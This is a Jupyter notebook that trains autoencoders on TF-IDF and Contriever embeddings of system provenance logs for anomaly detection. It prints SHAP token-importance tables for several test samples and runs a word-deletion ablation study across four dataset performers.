


🔍 Analyzing [NORMAL] | Test Index: 18349
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                read           -0.000001
                  sh           -0.000001
             network           -0.000001
                 run           -0.000001
               parts           -0.000001
           logrotate           -0.000001
           attribute           -0.000000
                open           -0.000000
                sbin           -0.000000
                  64           -0.000000
             firefox           +0.000000
    change_principal           +0.000000
              config           +0.000000
                fork           +0.000000
                 apt           +0.000000
                 and           +0.000000
             execute           +0.000000
               event           +0.000001
                bash           +0.000001
         thunderbird           +0.




🔍 Analyzing [NORMAL] | Test Index: 44968
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                  sh           -0.000003
                 bin           -0.000001
             network           -0.000001
           logrotate           -0.000001
               parts           -0.000001
                 run           -0.000001
                 env           -0.000000
               close           -0.000000
          executable           -0.000000
                open           +0.000000
    change_principal           +0.000000
              config           +0.000001
                bash           +0.000001
                exit           +0.000001
                 apt           +0.000001
               event           +0.000001
             python3           +0.000001
                 and           +0.000001
             execute           +0.000001
         thunderbird           +0.




🔍 Analyzing [NORMAL] | Test Index: 26001
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
              unlink           -0.000001
                read           -0.000001
             network           -0.000001
           logrotate           -0.000001
                 run           -0.000000
               parts           -0.000000
                  sh           -0.000000
                  64           -0.000000
                  rm           -0.000000
             execute           +0.000000
             firefox           +0.000000
    change_principal           +0.000000
                 apt           +0.000000
              config           +0.000000
             python3           +0.000000
                fork           +0.000000
                bash           +0.000000
               event           +0.000001
                 and           +0.000001
         thunderbird           +0.




🔍 Analyzing [NORMAL] | Test Index: 23110
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 apt           -0.000001
              config           -0.000001
             network           -0.000001
           logrotate           -0.000001
                 run           -0.000000
               parts           -0.000000
                 env           -0.000000
         loadlibrary           -0.000000
             firefox           -0.000000
                  64           -0.000000
                 bin           +0.000000
    change_principal           +0.000000
          executable           +0.000000
             execute           +0.000000
               event           +0.000001
                exit           +0.000001
                bash           +0.000001
             python3           +0.000001
                 and           +0.000001
         thunderbird           +0.



In [25]:
# ==========================================
# CELL 6: Generate SHAP Tables and Plots (Positive & Negative Drivers)
# ==========================================
import matplotlib.pyplot as plt
import pandas as pd
import numpy as np
from sklearn.feature_extraction.text import TfidfVectorizer

print("=== GENERATING SHAP TABLES & PLOTS FOR ALL SELECTED SAMPLES (VANILLA AE) ===")

# Loop through the dictionary created in Cell 5
for performer, index_list in selected_target_indices.items():
    print("\n" + "█"*80)
    print(f"🚀 PROCESSING SHAP FOR PERFORMER: {performer.upper()}")
    print("█"*80)
    
    # ==================================================
    # 1. REBUILD EXACT VOCABULARY (Only once per performer)
    # ==================================================
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    
    # [MEMORY FIX] Drop massive unused columns to prevent RAM crash
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]
    labels = all_performers_test_labels[performer]
    
    # [SUPERVISOR FIX] Fit ONLY on train_texts to perfectly match the SHAP indices!
    vectorizer = TfidfVectorizer(max_features=None)
    vectorizer.fit(train_texts) 
    tokens = np.array(vectorizer.get_feature_names_out())
    
    errors = all_performers_errors[performer]
    shap_vals = all_performers_shap_values[performer]
    
    # ==================================================
    # 2. INNER LOOP: PROCESS EACH OF THE INDICES
    # ==================================================
    for idx in index_list:
        lbl_type = "ANOMALY" if labels[idx] == 1 else "NORMAL"
        print(f"\n🔍 Analyzing [{lbl_type}] | Test Index: {idx}")
        print("-" * 60)
        
        if isinstance(shap_vals, list):
            importance = shap_vals[0][idx]
        else:
            importance = shap_vals[idx]
            
        importance = np.array(importance).flatten()
            
        # [NEW LOGIC] Identify the Top 20 most impactful words by ABSOLUTE value
        abs_importance = np.abs(importance)
        
        # If the entire array is 0 (perfect reconstruction with zero deviation), skip it
        if np.max(abs_importance) == 0:
            print(f" -> No SHAP drivers found for this {lbl_type.lower()} log. (Error was practically zero!)")
            continue
            
        # Get indices of the top 20 largest absolute impacts
        top_20_idx = np.argsort(abs_importance)[::-1][:20]
        
        # Extract the actual signed importances and tokens
        top_importances = importance[top_20_idx]
        top_tokens = tokens[top_20_idx]
        
        # Sort them from most negative to most positive for a clean diverging chart
        sort_order = np.argsort(top_importances)
        top_importances = top_importances[sort_order]
        top_tokens = top_tokens[sort_order]
        
        # CREATE A SHAP TABLE
        feature_table = pd.DataFrame({
            "Token (Feature Name)": top_tokens,
            "SHAP Value (Impact)": top_importances
        })
        # The {:+.6f} forces a '+' for positive numbers and keeps the '-' for negative
        feature_table["SHAP Value (Impact)"] = feature_table["SHAP Value (Impact)"].apply(lambda x: f"{x:+.6f}")

        print(f"Top 20 SHAP Drivers (Positive & Negative):")
        print(feature_table.to_string(index=False))

        # --- PLOT DIVERGING GRAPH ---
        plt.figure(figsize=(10, 8))
        
        # Assign colors: Red for pushing error UP (Anomaly), Blue for pushing error DOWN (Normal)
        bar_colors = ['#d62728' if val > 0 else '#1f77b4' for val in top_importances]
        
        plt.barh(range(len(top_importances)), top_importances, color=bar_colors)
        plt.yticks(range(len(top_importances)), top_tokens, fontsize=12) 
        plt.xlabel("SHAP Value (Impact on Reconstruction Error)", fontsize=12, fontweight='bold')
        
        # Dynamic title based on Normal vs Anomaly
        plt.title(f"[{performer.upper()}] {lbl_type} SHAP (Index {idx})\nReconstruction Loss: {errors[idx]:.6f}", fontsize=14, fontweight='bold')
        
        # Add a central vertical line at 0 for visual reference
        plt.axvline(0, color='black', linewidth=1.2)
        plt.grid(axis='x', linestyle='--', alpha=0.3)

        # Create a custom legend so the reader knows what the colors mean
        from matplotlib.patches import Patch
        legend_elements = [
            Patch(facecolor='#d62728', label='Increases Anomaly Score'),
            Patch(facecolor='#1f77b4', label='Decreases Anomaly Score')
        ]
        plt.legend(handles=legend_elements, loc='lower right')

        plt.tight_layout()
        
        # Dynamic filename so it doesn't overwrite
        save_filename = f"tfidf_shap_{lbl_type.lower()}_{performer}_idx_{idx}.png"
        plt.savefig(save_filename, dpi=300)
        print(f" -> ✅ Plot successfully saved as '{save_filename}'")
        
        plt.show()
        plt.close() # Free up memory for the next plot

In [17]:
# ==========================================
# CELL 9: Train Contriever AE & Setup SHAP (ALL PERFORMERS)
# ==========================================
from transformers import AutoTokenizer, AutoModel
import torch
import torch.nn as nn
import numpy as np
import shap
import gc

print("=== STARTING ABLATION STUDY: CONTRIEVER EMBEDDINGS ===")

# ==========================================
# DEFINE VANILLA AUTOENCODER MODEL
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# 1. Initialize Contriever Model (Only need to do this once outside the loop)
tokenizer = AutoTokenizer.from_pretrained("facebook/contriever")
embedder = AutoModel.from_pretrained("facebook/contriever").to(DEVICE)
embedder.eval()

# Helper function to batch encode the data safely
def get_contriever_emb_batch(text_list, batch_size=32):
    all_embs = []
    for i in range(0, len(text_list), batch_size):
        batch = text_list[i:i+batch_size]
        inputs = tokenizer(batch, padding=True, truncation=True, return_tensors="pt").to(DEVICE)
        with torch.inference_mode():
            outputs = embedder(**inputs)
            attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
            sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
            sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
            emb = sum_embeddings / sum_mask
            emb = torch.nn.functional.normalize(emb, p=2, dim=1)
            all_embs.append(emb.cpu().numpy())
            
        # [OOM FIX] Clear massive tensors from VRAM immediately
        del inputs, outputs, attention_mask, sum_embeddings, sum_mask, emb
        torch.cuda.empty_cache()
        
    return np.vstack(all_embs)

# ==========================================
# INITIALIZE ALL 4 DICTIONARIES HERE
# ==========================================
all_performers_emb_shap_values = {}
all_performers_emb_errors = {}
all_performers_emb_models = {}         # Stores the PyTorch models for Cell 10
all_performers_emb_backgrounds = {}    # Stores the SHAP backgrounds for Cell 10

# Wrapper for DeepExplainer
class AnomalyScoreWrapper(nn.Module):
    def __init__(self, model):
        super().__init__()
        self.model = model
    def forward(self, x):
        reconstruction = self.model(x)
        return torch.mean((x - reconstruction) ** 2, dim=1, keepdim=True)

# [CRITICAL FIX] Loop through the NEW dictionary name from Cell 5
for performer in selected_target_indices.keys():
    print("\n" + "="*70)
    print(f"🔹 PROCESSING CONTRIEVER EMBEDDINGS FOR: {performer.upper()}")
    print("="*70)

    # A. REBUILD TRAIN/TEST TEXTS
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    
    # [MEMORY FIX] Drop unused columns to prevent 14GB RAM crash
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]

    # B. GENERATE EMBEDDINGS
    print("1. Generating Contriever embeddings for Train and Test Sets...")
    X_train_emb = get_contriever_emb_batch(train_texts)
    X_test_emb = get_contriever_emb_batch(test_texts)

    # C. TRAIN VANILLA AUTOENCODER
    print("2. Training the 768-Dimension Vanilla Autoencoder...")
    input_dim_emb = 768 # Contriever's output dimension
    
    autoencoder_emb = VanillaAE(input_dim_emb).to(DEVICE)
    optimizer_emb = torch.optim.Adam(autoencoder_emb.parameters(), lr=0.001)
    criterion_emb = nn.MSELoss()

    # [OOM FIX] Keep full tensor on CPU
    X_train_emb_tensor = torch.FloatTensor(X_train_emb)
    
    autoencoder_emb.train()
    epochs = 50
    batch_size = 32
    for epoch in range(epochs):
        permutation = torch.randperm(X_train_emb_tensor.size()[0])
        for i in range(0, X_train_emb_tensor.size()[0], batch_size):
            indices = permutation[i:i+batch_size]
            
            # Move only the mini-batch to GPU
            batch_x = X_train_emb_tensor[indices].to(DEVICE)
            
            optimizer_emb.zero_grad()
            reconstruction = autoencoder_emb(batch_x)
            loss = criterion_emb(reconstruction, batch_x)
            loss.backward()
            optimizer_emb.step()
            
            # Free VRAM
            del batch_x

    # D. CALCULATE ERRORS
    error_model = AnomalyScoreWrapper(autoencoder_emb).to(DEVICE)
    error_model.eval()
    
    test_tensor = torch.FloatTensor(X_test_emb).to(DEVICE)
    with torch.no_grad():
        all_errors_emb = error_model(test_tensor).cpu().numpy().flatten() 
        
    all_performers_emb_errors[performer] = all_errors_emb

    # E. FAST SHAP WITH DEEPEXPLAINER
    print("3. Calculating SHAP values on Test Set using DeepExplainer...")
    bg_limit_emb = min(100, len(X_train_emb))
    background_tensor = torch.FloatTensor(X_train_emb[:bg_limit_emb]).to(DEVICE)
    
    explainer_emb = shap.DeepExplainer(error_model, background_tensor)
    shap_values_emb = explainer_emb.shap_values(test_tensor)
    
    all_performers_emb_shap_values[performer] = shap_values_emb
    
    # ==========================================
    # SAVE THE MODELS FOR CELL 10
    # ==========================================
    all_performers_emb_models[performer] = error_model
    all_performers_emb_backgrounds[performer] = background_tensor
    
    # Final cleanup before next performer
    del X_train_emb_tensor, test_tensor
    gc.collect()
    torch.cuda.empty_cache()
    
    print(f"✅ Contriever processing complete for {performer.upper()}!")

=== STARTING ABLATION STUDY: CONTRIEVER EMBEDDINGS ===


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(



🔹 PROCESSING CONTRIEVER EMBEDDINGS FOR: 5DIR
1. Generating Contriever embeddings for Train and Test Sets...
2. Training the 768-Dimension Vanilla Autoencoder...
3. Calculating SHAP values on Test Set using DeepExplainer...
✅ Contriever processing complete for 5DIR!

🔹 PROCESSING CONTRIEVER EMBEDDINGS FOR: CADETS
1. Generating Contriever embeddings for Train and Test Sets...
2. Training the 768-Dimension Vanilla Autoencoder...
3. Calculating SHAP values on Test Set using DeepExplainer...
✅ Contriever processing complete for CADETS!

🔹 PROCESSING CONTRIEVER EMBEDDINGS FOR: CLEARSCOPE
1. Generating Contriever embeddings for Train and Test Sets...
2. Training the 768-Dimension Vanilla Autoencoder...
3. Calculating SHAP values on Test Set using DeepExplainer...
✅ Contriever processing complete for CLEARSCOPE!

🔹 PROCESSING CONTRIEVER EMBEDDINGS FOR: THEIA
1. Generating Contriever embeddings for Train and Test Sets...
2. Training the 768-Dimension Vanilla Autoencoder...
3. Calculating SHAP 

In [18]:
# ==========================================
# CELL 10: Automated Multi-Stage Ablation (Top 5 & 10 Deletion - All Samples)
# ==========================================
import pandas as pd
import numpy as np
import torch
import shap
import re
import gc
from sklearn.feature_extraction.text import TfidfVectorizer
from transformers import AutoTokenizer, AutoModel

# 1. Initialize Contriever 
tokenizer = AutoTokenizer.from_pretrained("facebook/contriever")
embedder = AutoModel.from_pretrained("facebook/contriever").to(DEVICE)
embedder.eval()

def get_contriever_emb(text_input):
    if isinstance(text_input, str):
        text_input = [text_input]
        
    inputs = tokenizer(text_input, padding=True, truncation=True, return_tensors="pt").to(DEVICE)
    with torch.inference_mode():
        outputs = embedder(**inputs)
        attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
        sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
        sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
        emb = sum_embeddings / sum_mask
        emb = torch.nn.functional.normalize(emb, p=2, dim=1)
        
    del inputs, outputs, attention_mask
    torch.cuda.empty_cache()
    
    return emb.cpu().numpy()

print("🚀 Starting Automated Multi-Word Ablation Study (Vanilla AE)...")

ablation_results = []

for performer, index_list in selected_target_indices.items():
    print(f"\n" + "="*80)
    print(f"🔹 RUNNING ABLATION FOR PERFORMER: {performer.upper()}")
    print("="*80)
    
    # --------------------------------------------------
    # A. REBUILD EXACT VOCABULARY
    # --------------------------------------------------
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]
    labels = all_performers_test_labels[performer]
    
    vectorizer = TfidfVectorizer(max_features=None)
    vectorizer.fit(train_texts)
    tokens = np.array(vectorizer.get_feature_names_out())
    
    # --------------------------------------------------
    # B. RETRIEVE MODELS
    # --------------------------------------------------
    error_model = all_performers_emb_models[performer]
    background_tensor = all_performers_emb_backgrounds[performer]
    explainer_emb = shap.DeepExplainer(error_model, background_tensor)
    
    def evaluate_ablation(text, stage_name, lbl_type):
        emb = get_contriever_emb(text)
        emb_tensor = torch.FloatTensor(emb).to(DEVICE)
        
        with torch.no_grad():
            mse = error_model(emb_tensor).cpu().numpy().flatten()[0]
            
        shap_vals = explainer_emb.shap_values(emb_tensor)
        if isinstance(shap_vals, list):
            shap_vals = shap_vals[0]
            
        shap_mean = np.mean(shap_vals) 
        
        return {
            "Performer": performer.upper(),
            "Type": lbl_type,
            "Ablation Stage": stage_name,
            "Recon Error": mse,
            "SHAP Mean": shap_mean,
            "Text": text
        }

    def remove_multiple_words(text, words_to_remove):
        temp_text = text
        for w in words_to_remove:
            temp_text = re.sub(r'\b' + re.escape(w) + r'\b', '', temp_text, flags=re.IGNORECASE)
        return re.sub(r'\s+', ' ', temp_text).strip()

    # --------------------------------------------------
    # C. INNER LOOP: PROCESS EACH INDEX
    # --------------------------------------------------
    for idx in index_list:
        lbl_type = "Anomaly" if labels[idx] == 1 else "Normal"
        print(f"\n -> Analyzing [{lbl_type.upper()}] Test Index: {idx}")
        
        shap_vals_tfidf = all_performers_shap_values[performer]
        if isinstance(shap_vals_tfidf, list):
            importance = shap_vals_tfidf[0][idx]
        else:
            importance = shap_vals_tfidf[idx]
            
        importance = np.array(importance).flatten()
        
        # Isolate POSITIVE drivers (Threat words that push error up)
        i = np.where(importance > 0)[0]
        sorted_indices = i[np.argsort(importance[i])[::-1]]
        
        original_text = test_texts[idx]
        
        # If normal log has no positive drivers, skip ablation
        if len(sorted_indices) == 0:
            print(f"    [!] No positive threat drivers found. Recording original only.")
            ablation_results.append(evaluate_ablation(original_text, "1. Original", lbl_type))
            continue
            
        # Extract up to 5 and up to 10 words dynamically
        top_5_words = tokens[sorted_indices[:min(5, len(sorted_indices))]]
        top_10_words = tokens[sorted_indices[:min(10, len(sorted_indices))]]
        
        print(f"    Targeting Top {len(top_5_words)} for Stage 2, Top {len(top_10_words)} for Stage 3.")
        
        # Stage 1: Original Log
        ablation_results.append(evaluate_ablation(original_text, "1. Original", lbl_type))
        
        # Stage 2: Remove Top 5 Tokens
        text_minus_5 = remove_multiple_words(original_text, top_5_words)
        ablation_results.append(evaluate_ablation(text_minus_5, f"2. Removed Top {len(top_5_words)}", lbl_type))
        
        # Stage 3: Remove Top 10 Tokens
        if len(top_10_words) > len(top_5_words):
            text_minus_10 = remove_multiple_words(original_text, top_10_words)
            ablation_results.append(evaluate_ablation(text_minus_10, f"3. Removed Top {len(top_10_words)}", lbl_type))

# ==========================================
# REQUESTED TABLE OUTPUT
# ==========================================
df_results = pd.DataFrame(ablation_results)

df_results["Recon Error"] = df_results["Recon Error"].apply(lambda x: f"{x:.6f}")
df_results["SHAP Mean"] = df_results["SHAP Mean"].apply(lambda x: f"{x:+.8f}")

print("\n" + "="*100)
print("📊 MULTI-WORD ABLATION STUDY RESULTS")
print("="*100)

print(df_results[["Performer", "Type", "Ablation Stage", "Recon Error", "SHAP Mean"]].to_string(index=False))
print("="*100)

df_results.to_csv("vanilla_ablation_study_multi_deletion.csv", index=False)
print("✅ Saved full results to 'vanilla_ablation_study_multi_deletion.csv'")

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(


🚀 Starting Automated Multi-Word Ablation Study (Vanilla AE)...

🔹 RUNNING ABLATION FOR PERFORMER: 5DIR

 -> Analyzing [ANOMALY] Test Index: 2237
    Targeting Top 5 for Stage 2, Top 10 for Stage 3.

 -> Analyzing [ANOMALY] Test Index: 2233
    Targeting Top 5 for Stage 2, Top 10 for Stage 3.

 -> Analyzing [ANOMALY] Test Index: 2235
    Targeting Top 5 for Stage 2, Top 10 for Stage 3.

